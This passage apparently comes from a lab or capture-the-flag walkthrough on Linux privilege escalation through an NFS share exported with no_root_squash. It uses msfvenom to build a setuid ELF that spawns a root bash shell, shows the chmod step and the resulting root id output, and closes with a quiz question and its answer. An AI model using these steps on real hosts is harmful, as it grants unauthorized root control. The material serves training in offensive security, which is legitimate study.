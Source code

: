 **Explanation:**  
This mounts the `/tmp` directory from the Debian VM to your Kali box, with read and write permissions.

**3. Generate a Malicious Payload:**

Use `msfvenom` to create a payload that spawns a shell with elevated privileges:

```bash
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

**Explanation:**  
This command generates an ELF binary that, when executed, will spawn a Bash shell with root privileges.

**4. Set the SUID Permission:**

Make the binary executable and set the SUID permission, which allows the binary to be executed with the permissions of its owner:

```bash
chmod +xs /tmp/nfs/shell.elf
```

### Step 4: Gaining Root Access

Switch back to the Debian VM and, as the low-privileged user, execute the binary to gain a root shell:

```bash
/tmp/shell.elf
```

**Sample Output:**

```bash
bash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)
```

**Explanation:**  
You now have a root shell, as indicated by `euid=0(root)`.

### Cleanup

After confirming root access, remove the malicious shell and exit the root shell to maintain good security practices:

```bash
rm /tmp/shell.elf
exit
```

### Q1. What is the name of the option that disables root squashing?

**Answer:** `no_root_squash`

## Kernel Exploits
